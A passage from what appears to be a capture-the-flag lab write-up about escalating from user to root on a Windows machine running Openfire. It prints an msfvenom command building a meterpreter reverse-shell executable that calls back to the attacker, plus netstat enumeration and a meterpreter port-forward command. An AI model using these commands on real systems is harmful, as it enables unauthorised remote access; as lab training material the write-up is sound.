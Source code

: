 <p align="center">
  <img src="images/rev.png" />
</p>

In *C:\Users\svc_openfire\Desktop* there is the user flag.

## 3. User to ROOT

To have a better interaction, I used [msfvenom](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom) to create an exe for the shell.

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=tun0 LPORT=1234 -f exe -o shell`

In parallel I used msfconsole.

Starting to look for information, specifically services running in localhost, I found two ports, 9090 and 9091.

```powershell
PS C:\Users\svc_openfire\Downloads> netstat -ano | findstr '127.0.0.1:' | findstr 'LISTENING'
    tcp    127.0.0.1:53      0.0.0.0:*          LISTEN       0     0      2812/dns.exe
    tcp    127.0.0.1:9090    0.0.0.0:*          LISTEN       0     0      3348/openfire-service.exe
    tcp    127.0.0.1:9091    0.0.0.0:*          LISTEN       0     0      3348/openfire-service.exe
```

To verify the exposed service, I did port forwarding via meterpreter with the command: `meterpreter > portfwd add –l 9091 –p 9091 –r 127.0.0.1`.

<p align="center">
  <img src="images/openfire.png" />
</p>
